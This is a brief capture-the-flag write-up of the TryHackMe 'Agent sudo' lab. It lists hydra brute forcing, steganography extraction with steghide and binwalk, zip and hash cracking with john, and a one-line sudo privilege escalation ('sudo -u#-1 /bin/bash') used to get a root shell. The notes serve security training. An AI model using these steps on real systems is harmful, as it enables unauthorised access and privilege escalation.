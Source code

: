 # Agent sudo 🧭
Names | Details
--------|-----
Source | tryhackme 
Level     | medium
Os | Linux

**Notes :**
#category/stegnography 
#category/hashCracking 



## Gaining Access 😉

- user agent changing using curl
- binwalk extraction
- hydra bruteforce



## Maintaining Access 🥷
- bash can be run without password
	- sudo -u#-1 /bin/bash 
- sudo -l


## Important commands 🔥
- `curl -A "R" -L [http://10.10.23.158/](http://10.10.23.158/)`
	```
	curl "http://10.10.23.158" -H "User-Agent: R" -L
	```
- binwalk -e
- echo QXJlYTUx | base64 -d
- `scp username@hostname:/path/to/remote/file /path/to/local/file`
- `steghide extract -sf cute-alien.jpg`
- binwalk
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- password cracking using john
- zip2john => zip bruteforce
- ssh file download using scp
- extract from jpeg using steghide and binwalk


--------------------------------
**By Nibras Muhammed** 🤓🖥️






